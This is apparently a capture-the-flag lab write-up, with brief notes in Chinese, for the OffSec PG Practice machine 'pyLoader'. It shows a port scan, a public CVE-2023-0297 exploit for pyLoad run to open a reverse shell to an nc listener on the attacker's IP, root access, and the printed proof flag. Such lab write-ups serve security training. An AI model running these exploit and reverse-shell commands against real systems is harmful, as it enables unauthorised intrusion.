 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# pyLoader
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.26 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.26:22
Open 192.168.219.26:9666

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
9666/tcp open  http    syn-ack CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.219.26:9666/
|_http-server-header: Cheroot/8.6.0
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

搜尋PyLoad exploit找到[CVE-2023-0297](https://github.com/JacobEbben/CVE-2023-0297/tree/main)，使用，開nc，得root，到/root得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 exploit.py -t http://192.168.219.26:9666 -c whoami -P 9001 -I 192.168.45.175
[SUCCESS] Running reverse shell. Check your listener!

root@pyloader:~/.pyload/data# cd /root
root@pyloader:~# cat proof.txt
1e5a07bcc051a19a13c8b50fa6dbd8b9
```
